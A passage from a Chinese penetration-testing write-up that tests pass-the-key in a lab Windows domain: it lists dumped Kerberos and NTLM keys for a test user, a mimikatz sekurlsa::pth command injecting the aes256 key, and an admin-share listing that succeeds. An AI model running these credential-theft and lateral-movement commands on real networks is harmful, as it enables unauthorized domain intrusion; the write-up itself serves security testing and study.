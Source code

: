 如图![这里写图片描述](http://drops.javaweb.org/uploads/images/57dfcad7e47c45ef331ed28d9a1192c6de32f51f.jpg)

无法远程连接，如图![这里写图片描述](http://drops.javaweb.org/uploads/images/38c265fccb4923d425c1696ad3d4d99c62e68f32.jpg)

查看mimikatz的相关资料发现如下信息：

> ntlm hash is mandatory on XP/2003/Vista/2008 and before 7/2008r2/8/2012 kb2871997 (AES not available or replaceable) ; AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with kb2871997, in this case you can avoid ntlm hash.

根据提示，尝试在系统安装补丁kb2871997后继续测试

### 测试3：使用aes key远程连接（kb2871997 Installed）

已知信息：

```
* Username : a
* Domain   : TEST.LOCAL
* Key List :
    aes256_hmac       f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c
    aes128_hmac       8cce86e4b0630f07fcf5f2110068c421
    rc4_hmac_nt       efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_old      efa85b42d77dc2fdbdbdb767792b0a11
    rc4_md4           efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_nt_exp   efa85b42d77dc2fdbdbdb767792b0a11
    rc4_hmac_old_exp  efa85b42d77dc2fdbdbdb767792b0a11

测试主机：
安装kb2871997补丁

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/7e0f13cdd731048127389a8788c71e3548f19ac3.jpg)

在测试主机上：

以管理员权限运行

```
mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c" 

```

可以成功导入aes256

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/fc011d158db54c7dd5038f97378edd219d5e4534.jpg)

远程连接

```
dir \\WIN-8VVLRPIAJB0\c$

```

成功
